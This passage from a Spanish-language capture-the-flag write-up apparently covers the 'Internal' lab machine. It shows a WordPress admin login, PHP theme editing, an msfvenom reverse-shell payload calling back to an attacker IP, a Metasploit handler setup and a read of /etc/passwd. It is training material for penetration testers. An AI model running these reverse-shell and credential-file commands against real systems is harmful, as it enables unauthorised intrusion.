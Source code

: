 ![[Pasted image 20250815094147.png]]
![[Pasted image 20250815094306.png]]

Se encuentra la contraseña del usuario `admin`.

Se accede al panel de inicio de sesión de *WordPress* y se inicia sesión con el usuario y contraseña encontrados anteriormente.

`http://internal.thm/blog/wp-admin`

![[Pasted image 20250815094638.png]]

Se puede editar código *PHP* en el siguiente apartado: `Appearance/Theme Editor/The`.

![[Pasted image 20250815094849.png]]
### Upload Files - Reverse Shell

Se genera un *payload malicioso* para copiarlo.

`msfvenom -p php/reverse_php LHOST=10.8.184.124 LPORT=1234 -f raw > pwned.php`

Se genera una escucha por el puerto `1234` para recibir la *reverse shell*.

`vim handler`

```
use multi/handler
set PAYLOAD php/reverse_php
set LHOST 10.8.184.124
set LPORT 1234
run
```

`msfconsole -r handler.rc`

`http://internal.thm/blog/`

![[Pasted image 20250815100049.png]]

`background`

`sessions -u 1`

`sessions 2`

`sysinfo`

![[Pasted image 20250815100456.png]]

`getuid`

![[Pasted image 20250815100514.png]]

`cat /etc/passwd`

![[Pasted image 20250815100623.png]]
